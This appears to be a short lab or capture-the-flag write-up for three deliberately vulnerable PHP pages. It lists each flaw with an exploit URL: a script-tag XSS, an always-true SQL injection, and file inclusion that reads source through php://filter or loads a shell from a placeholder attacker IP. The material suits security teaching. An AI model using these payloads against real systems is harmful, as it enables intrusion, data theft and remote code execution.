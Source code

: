 ## Level 1

**Vulnerability:** XSS (Cross Site Scripting)

**Exploit :** `/level1.php?username=<script>alert(1)</script>`

**Impact:** Execute arbitrary Javascript code on Web Browser.

## Level 2


**Vulnerability:** SQL injection

**Exploit :** `/level2.php?name='e' or '1'='1'`

**Impact:** Execute arbitrary SQL injection.

## Level 3


**Vulnerability:** Local File Inclusion

**Exploit (allow_url_include=Off):** `/level3.php?file=php://filter/convert.base64-encode/resource=level3`

**Exploit (allow_url_include=On):** `/level3.php?file=http://<attacker_IP>/shell`

**Impact:** Display the content of any PHP file on hard disk drive with the privileges of HTTP server (if allow_url_include=Off in PHP configuration). Execute arbitrary PHP code (if allow_url_include=On in PHP configuration).
